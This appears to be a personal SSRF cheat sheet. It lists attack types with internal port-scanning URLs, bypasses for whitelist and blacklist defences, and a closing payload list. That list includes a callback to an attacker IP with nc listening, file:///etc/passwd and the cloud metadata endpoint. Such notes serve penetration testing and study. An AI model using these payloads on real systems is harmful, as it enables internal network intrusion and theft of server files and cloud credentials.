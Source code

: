 # SSRF

## Types
- Blind SSRF: Allows to scan for accessible hosts and ports
  - /images/proxy?url=http://10.0.0.1/ => 80 ms
  - /images/proxy?url=http://10.0.0.1:81/ => 5014 ms
  - /images/proxy?url=http://10.0.0.1:6379/ => 94 ms
- Full response
  - Allows you to see the entire response from the server
- limited or No response: Shows a portion of the reesponse like the title of the page or No response or you have access to resources but can`t see them directly
  - /images/proxy?url=http://10.0.0.1/ => HTTP/1.1 200 OK
  - /images/proxy?url=http://10.0.0.1:87/ => HTTP/1.1 404 Not Found , 408 Request Timeout
  - /images/proxy?url=http://10.0.0.1:8080/ => HTTP/1.1 200 OK

# Potential Blockers & Solutions
- Whitelist
  - Blocker: Only allow a few domain names to be used in the request
  - Solution: Finding an Open Redirect
- Blacklisting
  - Blocker: Block access to internal IP addresses, domains or keywords
  - Solution: Creating a custom CNAME and pointing it to our internal IP address on our target
- Restricted Content-Type, extensions, characters
  - Blocker: Only allow a particular file type
  - Solution: Manual fuzzing and creating a bypass
- No response
  - Blocker: Not able to see response from the request
  - Solution: JavaScript XHR request to retrive file contents 

# Tips
- You are making a server side request
- You are browsing content that is rendering on the host machine
- There are different ways to look for content on localhost other than "localhost" or 127.0.0.1
- You may need to use an open redirect to redirect the machine to your destination host
- The current host may be able to communicate with other machines on the network (that may require being on corporate VPN)
- Make sure the request comes from the remote server and not your personal IP address

# Payload
- http://134.209.1.150:8000 (nc is running on attacker machine))
- file:///etc/passwd
- http://localhost
- http://169.254.169.254/metadata/v1 (AWS)
- Copy and paste *Burp Collaborator* address
